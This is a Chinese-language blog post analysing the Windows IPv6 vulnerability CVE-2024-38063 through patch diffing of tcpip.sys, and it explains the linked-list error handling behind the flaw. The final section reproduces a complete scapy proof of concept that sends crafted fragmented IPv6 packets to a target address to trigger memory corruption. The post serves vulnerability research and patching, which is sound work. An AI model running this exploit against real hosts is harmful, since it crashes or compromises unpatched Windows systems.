



2024年8月13日，微软在“补丁星期二（Patch Tuesday）”更新中披露了一个严重漏洞CVE-2024-38063，该漏洞是由国内赛博昆仑实验室的Wei发现并上报，影响到Windows系统的TCP/IP协议实现，TCP/IP协议是用于互联网通信的基本通信协议。该漏洞的CVSS评分为9.8（严重），且允许攻击者在启用IPv6的系统上远程执行任意代码（RCE，Remote Code Execution），因而这个漏洞可以远程被利用，并且有“蠕虫化”的潜力，这也意味着它可以在无需用户交互的情况下在网络中传播。



## 影响范围

该漏洞影响到启用IPv6协议的Windows系统，而IPv6协议在Windows系列系统中都是默认启用的，因此漏洞影响范围包括Windows 10、Windows 11和从2008年到2022年的各种Windows Server版本。

## 漏洞原理

从漏洞信息可以看出该漏洞的弱点是CWE-191（整数溢出），但为了理解该漏洞的原理，需要了解CVE-2024-39063的补丁做了哪些修订，由于受影响的是IPv6协议的实现文件tcpip.sys，因此需要对比补丁前后的tcpip.sys文件的不同，这个步骤可以利用Winbindex网站（https://winbindex.m417z.com/ ）和bindiff工具，前者可以用来查询和下载不同版本的Windows系统文件，包括像tcpip.sys这样的系统文件，后者是一个二进制差异对比工具，通常配合IDA Pro使用，用来比较两个不同版本的二进制文件。

笔者使用的是Windows 10专业版22H2版本的系统进行文件对比和分析，因此在Winbindex中寻找补丁发布（2024年8月13日）前后该版本操作系统的tcpip.sys文件。


下载之后的文件需要用IDA Pro分别打开并保存（或快捷键Ctrl+W）为i64后缀的数据文件，之后使用IDA Pro自带的bindiff工具（或快捷键Shift+D）对比两个文件的差异。



在匹配函数（Matched Functions）功能中可以看到这两个文件唯一的区别是来自Ipv6pProcessOptions函数，根据函数名称可知该函数在Windows系统中是用来处理IPv6数据包选项信息的。

IPv6报文（Packet）的报头（Header）分为两个部分，第一部分是固定报头或基础报头（Fixed/Base Header），其长度固定为40字节，包括版本（Version）、通信类（Traffic Class）、流标签（Flow Label）、载荷长度（Payload Length）、下一个报头（Next Header）、跳数限制（Hop Limit）、源地址（Source Address）、目的地址（Dstination Address），第二部分是扩展报头（Extension Header），其长度不固定，但内容包括逐跳选项（Hop-by-Hop Options）、目的地选项(Destination Options)、路由头(Routing Header)等。



Ipv6pProcessOptions函数就是用来处理IPv6报头的扩展报头选项的，这个函数在两个版本的文件中的主要区别在于函数最后一部分代码，7月16日签名的版本中该部分的代码如下：


8月10日签名的版本中该部分的代码如下：


上面代码中Feature\_2365398330\_\_private\_IsEnableDeviceUsage函数的返回值赋值给IsEnableDeviceUsage，而该变量决定是否执行IppSendError函数还是IppSendErrorList函数，后者是补丁前文件中的代码，结合函数名称可以判断，该函数用于设定是否启用补丁程序，以避免补丁程序存在缺陷对系统产生影响，同时也意味着漏洞的位置是在IppSendErrorList函数的实现中。

接着查看IppSendErrorList函数（如下图），这个函数中定义了一个临时的指针变量\*v8，同时结合通过遍历传入的指针参数\*a3，实现IppSendError函数对于指针\*a3的遍历调用，即使用函数IppSendError处理链表中的节点。


而补丁修改的代码是删除了IppSendErrorList函数直接调用IppSendError函数，也就是说补丁的核心功能是去掉了链表遍历。这是两个完全不同逻辑的处理方式，前者是通过链表处理每个节点，后者则是只处理一个节点，上述代码的入参a1同时也是Ipv6pProcessOptions函数的入参，这个参数其实是NET\_BUFFER\_LIST结构的网络包的列表，更新后的补丁只处理第一个节点，也意味着漏洞的成因是由于链表的处理。

从IppSendError函数名称可以判断，这个函数的功能是用来发现IPv6报头错误后发送错误的，之所以存在链表的处理方式，根据上文中IPv6报头结构可知，下一个头（Next Header）会指定扩展报头，而每一个扩展报头又会通过下一个头（Next Header）继续指定扩展报头，这个结构本身就是链表形式，因此IppSendErrorList设计的初衷应当是用来逐个处理每一个扩展头的错误。

在IppSendError函数的伪代码中可以看到多次调用NetioRetreatNetBufferList函数，该函数是用来撤回网络缓冲区重新传输或丢弃数据包用的，或者说是用来处理错误信息的必要函数，既然是整数溢出漏洞，那么就需要特别关注下NetioRetreatNetBufferList上下文的部分，其中尤为可疑的部分是下图中的代码。


结合NetioRetreatNetBufferList的定义如下：

``` C++
VOID
NetioRetreatNetBufferList(
 _In_ PNET_BUFFER_LIST NetBufferList,
 _In_ ULONG DataOffsetDelta,
 _In_ ULONG DataBackFill,
 _In_ BOOLEAN MdlOnly
 );
 ```

    NetioRetreatNetBufferList的第二个参数是整数类型的DataOffsetDelta，该参数指定的是NET\_BUFFER\_LIST中的数据指针的偏移量，而这个偏移量在处理分包的时候被置为了0。这么做的后果是遇到多个小报文组成的IPv6数据包时，随着分片处理和合并，使用重置为0的DataOffsetDelta申请内存，并在后续的Ipv6pReassemblyTimeout函数中调用，从而产生了内存溢出。

## 漏洞利用

    ynwarcs已经在漏洞披露后编写了很好的PoC程序，代码如下：

``` Python
from scapy.all import *

iface='' # interface of network
ip_addr='' # Target ip address
mac_addr='' # Leave this empty at default
num_tries=20
num_batches=20

def get_packets_with_mac(i):
    frag_id = 0xdebac1e + i
    first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

def get_packets(i):
    if mac_addr != '':
        return get_packets_with_mac(i)
    frag_id = 0xdebac1e + i
    first = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

final_ps = []
for _ in range(num_batches):
    for i in range(num_tries):
        final_ps += get_packets(i) + get_packets(i)

print("Sending packets")
if mac_addr != '':
    sendp(final_ps, iface)
else:
    send(final_ps, iface)

for i in range(60):
    print(f"Memory corruption will be triggered in {60-i} seconds", end='\r')
    time.sleep(1)
print("")
```

## 参考资料

*   https://github.com/ynwarcs/CVE-2024-38063
    
*   https://malwaretech.com/2024/08/exploiting-CVE-2024-38063.html